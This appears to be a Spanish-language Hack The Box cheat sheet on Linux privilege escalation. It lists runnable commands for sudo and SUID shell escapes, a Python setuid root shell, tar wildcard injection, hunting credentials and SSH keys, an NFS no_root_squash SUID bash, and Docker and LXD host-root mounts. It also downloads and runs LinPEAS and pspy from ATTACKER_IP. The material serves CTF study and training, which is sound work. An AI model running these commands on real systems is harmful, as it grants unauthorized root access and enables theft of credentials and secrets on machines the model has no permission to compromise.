

# HTB Linux Privilege Escalation

> [!abstract] TL;DR
> La escalada en Linux suele salir de **permisos**, **credenciales**, **ejecución automática** o **servicios internos**. Antes de probar exploits de kernel, agotá `sudo -l`, SUID, capabilities, cron, grupos y secretos en archivos.

## Flujo rápido



## Snapshot inicial

```bash
whoami; id; hostname; pwd
cat /etc/os-release
uname -a
sudo -l
ip -br addr
ip route
ss -tulpen
```

> [!tip]
> Guardá la salida importante. En HTB es común volver 20 minutos después a una línea que parecía ruido.

## 1. sudo -l

```bash
sudo -l
```

Si aparece `NOPASSWD`, buscar el binario en GTFOBins:

```bash
sudo /path/to/bin
```

Ejemplos típicos:

```bash
sudo vim -c ':!/bin/sh'
sudo find . -exec /bin/sh \; -quit
sudo bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

> [!warning]
> Leé el path exacto. `sudo /usr/bin/vim` no es lo mismo que `sudo vim` si podés manipular `PATH`.

## 2. SUID/SGID

```bash
find / -perm -4000 -type f -ls 2>/dev/null
find / -perm -2000 -type f -ls 2>/dev/null
```

Binarios que valen revisión inmediata:

```text
bash, sh, find, vim, nano, cp, mv, less, more, nmap, python, perl, ruby, tar, zip, gdb, env, systemctl, mount
```

```bash
# SUID bash clásico
/bin/bash -p
```

## 3. Linux capabilities

```bash
getcap -r / 2>/dev/null
```

Capabilities peligrosas:

- `cap_setuid+ep`: puede permitir cambiar UID a root.
- `cap_dac_read_search+ep`: puede leer archivos aunque no tenga permisos normales.
- `cap_dac_override+ep`: puede saltarse controles de permisos.
- `cap_net_raw+ep`: útil para sniffing o manipulación de red.

Ejemplo si `python` tiene `cap_setuid+ep`:

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## 4. Cron, timers y tareas automáticas

```bash
cat /etc/crontab
ls -la /etc/cron.* /var/spool/cron/crontabs 2>/dev/null
systemctl list-timers --all 2>/dev/null
```

```bash
# Scripts modificables ejecutados por root
find /etc/cron* /opt /usr/local/bin /var/www -type f -writable -ls 2>/dev/null
```

Si un script root ejecuta comandos sin path absoluto, revisar `PATH hijacking`.

## 5. Archivos y directorios escribibles

```bash
find / -writable -type d 2>/dev/null | grep -vE '^/proc|^/sys|^/dev'
find / -writable -type f 2>/dev/null | grep -vE '^/proc|^/sys|^/dev'
```

Lugares que suelen importar:

- `/opt`;
- `/usr/local/bin`;
- `/var/www`;
- scripts llamados por cron;
- backups que luego son restaurados o ejecutados;
- directorios en `PATH` antes de `/usr/bin`.

## 6. PATH hijacking

```bash
echo $PATH
find / -type f -writable 2>/dev/null | grep -vE '^/proc|^/sys|^/dev'
```

Patrón vulnerable:

```bash
# Script ejecutado por root
tar czf backup.tar.gz /var/www
```

Si el script no usa `/usr/bin/tar` y controla `PATH`, crear un `tar` malicioso en un directorio priorizado.

## 7. Wildcard injection

Aplicable cuando root ejecuta herramientas como `tar`, `chown` o `rsync` sobre `*`.

```bash
touch '--checkpoint=1'
touch '--checkpoint-action=exec=sh shell.sh'
```

> [!warning]
> Confirmá el contexto antes de tocar wildcards. Si el job no corre como root o no usa `*`, no sirve.

## 8. Credenciales y secretos

```bash
grep -RniE 'password|passwd|pwd|secret|token|api[_-]?key|credential|mysql|postgres|redis' /var/www /opt /home 2>/dev/null

find / -type f \( -name "*.bak" -o -name "*.old" -o -name "*.save" -o -name "*.zip" -o -name "*.tar*" -o -name "*.kdbx" \) 2>/dev/null

find / -name "id_rsa" -o -name "*.pem" -o -name "*.key" 2>/dev/null
```

```bash
# Historiales
find /home /root -name ".*history" -type f -exec ls -la {} \; 2>/dev/null
cat ~/.bash_history 2>/dev/null
```

## 9. NFS no_root_squash

Desde atacante:

```bash
showmount -e $IP
sudo mount -t nfs $IP:/share /mnt
```

Si el export tiene `no_root_squash`, crear binario SUID:

```bash
cp /bin/bash /mnt/bash
sudo chown root:root /mnt/bash
sudo chmod 4777 /mnt/bash
```

En víctima:

```bash
/path/share/bash -p
```

## 10. Docker/LXC/grupos peligrosos

```bash
id
groups
```

Grupos a mirar:

- `docker`;
- `lxd` / `lxc`;
- `adm`;
- `disk`;
- `shadow`;
- `sudo`.

Docker:

```bash
docker images
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

LXD:

```bash
lxc image list
lxc init <image> privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```

## 11. Servicios internos

```bash
ss -ltnp
ss -lunp
```

Si algo escucha en `127.0.0.1`, probar desde la víctima:

```bash
curl -i http://127.0.0.1:PORT
mysql -h 127.0.0.1 -u root -p
redis-cli -h 127.0.0.1 -p PORT
```

Port forward:

```bash
ssh -L 8080:127.0.0.1:PORT user@$IP
```

## 12. Kernel exploits

```bash
uname -a
cat /etc/os-release
searchsploit linux kernel <version>
```

> [!danger]
> Kernel exploit es último recurso. En HTB puede ser válido, pero antes agotá sudo, SUID, capabilities, cron, credenciales, servicios internos y grupos.

## Automatización útil

```bash
# LinPEAS
wget http://ATTACKER_IP:8000/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh | tee /tmp/linpeas.out
```

```bash
# pspy para cron/procesos sin root
wget http://ATTACKER_IP:8000/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```

## Checklist

```text
1. sudo -l muestra algo?
2. Hay SUID/SGID raro?
3. Hay capabilities peligrosas?
4. Hay scripts de cron/timers escribibles?
5. Hay credenciales en configs, backups o historiales?
6. Hay puertos internos en localhost?
7. Hay grupos peligrosos como docker/lxd/disk/shadow?
8. Hay NFS con no_root_squash?
9. La versión de kernel tiene exploit conocido y razonable?
```

## Referencias

- [[HTB/Linux/cheatsheet|Linux Enumeration]]
- [[Linux built-in tools]]
- GTFOBins
- HackTricks Linux Privilege Escalation
- PayloadsAllTheThings
